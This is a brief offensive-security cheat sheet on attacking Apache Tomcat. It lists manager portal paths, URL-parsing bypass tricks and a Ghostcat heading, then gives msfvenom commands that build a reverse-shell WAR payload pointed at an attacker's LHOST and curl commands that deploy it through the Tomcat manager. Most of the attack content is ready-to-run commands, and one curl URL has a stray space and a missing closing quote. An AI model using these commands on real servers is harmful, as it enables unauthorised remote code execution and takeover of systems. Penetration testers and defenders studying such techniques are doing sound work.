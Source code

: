 # Apache Tomcat


## Vulnerabilities and Enumaration

Default password: metasploit module auxillary scanner! 

Administrator portal can host files
`/manager/`
`/manager-gui/`

nginx - tomcat observe url parsing `/..;/`

Fuzzing tomcat `////Admin` or `;/Admin`
#### Ghostcat

Upload should not necessarily require username and password
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f war -o shell.war
# OR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f war -o shell.war
# the FILE.jsp is catable in the .war shell 
curl -u '[USERNAME]:[PASSWORD]' --upload-file shell.war "http://$IP:8080/mana ger/text/deploy?path=/shell"
# Check the file
curl -u '[USERNAME]:[PASSWORD]' "http://$IP:8080/shell/$FILE.jsp
```

[Apache Ghostcat](https://medium.com/@sushantkamble/apache-ghostcat-cve-2020-1938-explanation-and-walkthrough-23a9a1ae4a23)